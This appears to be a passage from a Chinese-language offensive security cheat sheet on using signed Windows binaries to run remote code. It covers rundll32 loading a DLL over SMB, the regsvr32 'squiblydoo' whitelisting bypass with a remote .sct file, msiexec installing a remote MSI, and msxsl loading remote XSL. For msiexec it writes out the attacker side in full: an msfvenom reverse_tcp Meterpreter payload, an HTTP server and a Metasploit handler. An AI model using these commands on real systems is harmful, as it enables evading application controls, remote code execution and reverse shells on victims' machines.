 ### Rundll32.exe

Rundll32.exe 与 Windows 操作系统相关联，可调用从 DLL（16位或32位）导出的函数并将其存储在适当的内存库中。

```cmd
rundll32.exe \\192.168.1.1\test.dll,0
```

### Regsvr32.exe

Regsvr32 是一个命令行实用程序，用于注册和注销 OLE 控件，例如 Windows 注册表中的 DLL 和 ActiveX 控件。Windows XP 和更高版本的 Windows 的 ％systemroot％\ System32 文件夹中安装了 Regsvr32.exe。

Regsvr32 使用 “squablydoo” 技术绕过应用程序白名单。签名的 Microsoft 二进制文件 Regsvr32 可以请求一个 .sct 文件，然后在其中执行包含的 PowerShell 命令。这两个 Web 请求（即 .sct 文件和 PowerShell 下载 / 执行）都可以在同一端口上发生。“PSH(Binary)” 将向磁盘写入文件，允许下载 / 执行自定义二进制文件。

```bash
regsvr32 /s /n /u /i:http://192.168.1.1/test.sct test.dll
```

### Msiexec.exe

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.1 lport=1234 -f msi > 1.msi

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.1
set lport 1234
exploit
```

目标端
```bash
msiexec /q /i http://192.168.1.1/1.msi
```

### msxsl.exe

msxsl.exe 是微软用于命令行下处理 XSL 的一个程序，所以通过他，我们可以执行 JavaScript 进而执行系统命令。

下载地址 : https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML 及 XSL 文件，可以远程加载
```bash
msxsl http://192.168.1.1/1/demo.xml http://192.168.1.1/1/exec.xsl
```

demo.xml
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```
